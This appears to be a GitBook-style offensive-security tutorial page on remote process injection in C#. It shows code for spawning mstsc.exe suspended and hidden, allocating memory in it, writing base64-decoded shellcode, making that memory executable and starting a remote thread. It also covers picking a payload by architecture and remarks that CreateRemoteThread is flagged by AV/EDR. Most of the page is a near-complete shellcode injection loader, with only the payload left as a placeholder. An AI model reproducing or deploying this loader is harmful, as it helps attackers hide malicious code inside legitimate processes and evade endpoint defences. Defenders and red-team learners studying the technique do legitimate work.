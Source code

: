 # Basic Remote Process Injection API

### Basic Remote Process Injection API

#### Remote Process Injection 

1. **CreateProcess:** spawn a new process
2. **VirtualAllocEx**: allocate memory in the newly created Process. Assigns memory permissions
3. **WriteProcessMemory**: copy the shellcode into the remote process
4. **VirtualProtectEx**: Change memory permissions associated with a range of memory allocated with VirtualAllocEx in a remote process
5. **CreateRemoteThread**: creates a thread which executes the shellcode in the remote process.

## Detect OS Architecture

### Windows locations

![](../../../.gitbook/assets/image%20%28133%29.png)

### IntPtr.Size 

The size of a pointer or handle in this process, measured in bytes. The value of this property is 4 in a 32-bit process, and 8 in a 64-bit process. You can define the process type by setting the `/platform` switch when you compile your code with the C\# and Visual Basic compilers.

#### Code example

We choose a process, check if the arch is x64 or x86 and use the related payload.

```csharp
 {
        string processis64 = "C:\\Windows\\System32\\mstsc.exe";
        string processis32 = "C:\\Windows\\SysWOW64\\mstsc.exe";
        string b4shellcode = "";
        string MyVictimProcess = "";

        if (IntPtr.Size == 4)
        {
            b64shellcode = "<base64 encoded shellcode>";
            MyVictimProcess = processis32;
        }
        else
        {
            b64shellcode = "<base64 encoded shellcode>";
            MyVictimProcess = processis64;
        }

        byte[] DecodedShell = Convert.FromBase64String(b64shellcode);
```

## CreateProcess

![](../../../.gitbook/assets/image%20%28228%29.png)

#### 3 elements require defined structures:

### **STARTUPINFO**

```csharp
public struct STARTUPINFO
{
     public Int32 cb;
     public string lpReserved;
     public string lpDesktop;
     public string lpTitle;
     public Int32 dwX;
     public Int32 dwY;
     public Int32 dwXSize;
     public Int32 dwYSize;
     public Int32 dwXCountChars;
     public Int32 dwYCountChars;
     public Int32 dwFillAttribute;
     public Int32 dwFlags;
     public Int16 wShowWindow;
     public Int16 cbReserved2;
     public IntPtr lpReserved2;
     public IntPtr hStdInput;
     public IntPtr hStdOutput;
     public IntPtr hStdError;
}

```

### **PROCESS\_INFORMATION**

```csharp
public struct PROCESS_INFORMATION
{
   public IntPtr hProcess;
   public IntPtr hThread;
   public int dwProcessId;
   public int dwThreadId;
}
```

### **dwCreationFlags**

![](../../../.gitbook/assets/image%20%28310%29.png)

### CreateProcess summary

```csharp
STARTUPINFO STinfo = new STARTUPINFO();

PROCESS_INFORMATION PR_info = new PROCESS_INFORMATION();

bool polo = CreateProcess(<Process_NAME>, null, IntPtr.Zero, IntPtr.Zero, false, ProcessCreationFlags.CREATE_SUSPENDED | ProcessCreationFlags.CREATE_NO_WINDOW , IntPtr.Zero, null, ref STinfo, out PR_info );
```

Process name = process name

null = process args

IntPtr.Zero = No process Attributs needed

IntPtr.Zero = No process Attributs needed

false = No Thread attributes handles

ProcessCreationFalgs = CREATE\_NO_\__WINDOW

IntPtr.Zero = No env block

null = Not modification for the current working directory

ref STinfo = ref to the startup struct

out PRinfo = variable which contains the output \(PROCESS\_INFORMATION format\)

## **VirtualAllocEx**

![](../../../.gitbook/assets/image%20%28247%29.png)

```csharp
 private static UInt32 MEM_COMMIT = 0x1000;
 private static UInt32 PAGE_EXECUTE_READ = 0x20;
 private static UInt32 PAGE_READWRITE = 0x04;
```

### Parameters

* IntPrt Process = result \(out\) from CreateProcess
* IntPrt lpAddress = Let the function determine where to allocate the memory
* uint dwSize = shellcode size 
* AllocationType flAllocationType = Constant for allocation type \(MEM\_COMMIT\)
* MemoryProtection = Set permission \(PAGE\_READWRITE, ie RW\)

```csharp
byte[] DecodedShell = Convert.FromBase64String(b64shellcode);
IntPtr VirtAEx_result = VirtualAllocEx(PR_info.hProcess, IntPtr.Zero, DecodedShell.Length, MEM_COMMIT, PAGE_READWRITE);

```

## WriteProcessMemory

![](../../../.gitbook/assets/image%20%28245%29.png)

### Parameters

* IntPrt Process = result \(out\) from CreateProcess
* IntPtr lpBaseAddress = result of VirtualAllocEx, ie VirtualAEx\_result
* byte\[\] lpBuffer = shellcode
* nSize = shellcode Length
* Out InPtr = not important, put whatever here

```csharp
bool WrProcess_result = WriteProcessMemory(PR_info.hProcess,VirtAEx_result,DecodedShell,DecodedShell.Length, out whatever);
```

## VirtualProtectEx

![](../../../.gitbook/assets/image%20%28125%29.png)

### Parameters

* IntPrt Process = result \(out\) from CreateProcess
* IntPtr lpBaseAddress = result of VirtualAllocEx, ie VirtualAEx\_result
* UIntPtr dwSize = shellcode Length
* uint flNewProtect = set permission \(PAGE\_EXECUTE\_READ \) 
* Out uint lpfloldProtect = not important, put whatever here

```csharp
VirtProcte_result = VirtualProtectEx(PR_info.hProcess, VirtAEx_result, DecodedShell.Length, PAGE_EXECUTE_READ, out whatever2 );
```

## CreateRemoteThread

![](../../../.gitbook/assets/image%20%28252%29.png)

### Parameters

* IntPrt Process = result \(out\) from CreateProcess
* IntPtr lpThreadAttributes = IntPtr.zero \(defaut security descriptors\)
* uint dwStackSize = 0 \(no stack size spec\)
* IntPtr lpStartAddress = result of VirtualAllocEx
* IntPtr lpParameter = IntPtr.Zero, no variable specification
* uint dwCreationFlags = 0, run the thread immediately
* out IntPtr lpThreadId = IntPtr.Zero \(no need for thread id\)

```csharp
CreateRemoteThread(PR_info.hProcess, IntPtr.Zero, 0, VirtAEx_result, IntPtr.Zero, 0, IntPtr.Zero);
```

{% hint style="warning" %}
CreateRemoteThread is flagged by AV/EDR products :\)
{% endhint %}

## Resources

{% embed url="http://www.pinvoke.net/index.aspx" %}

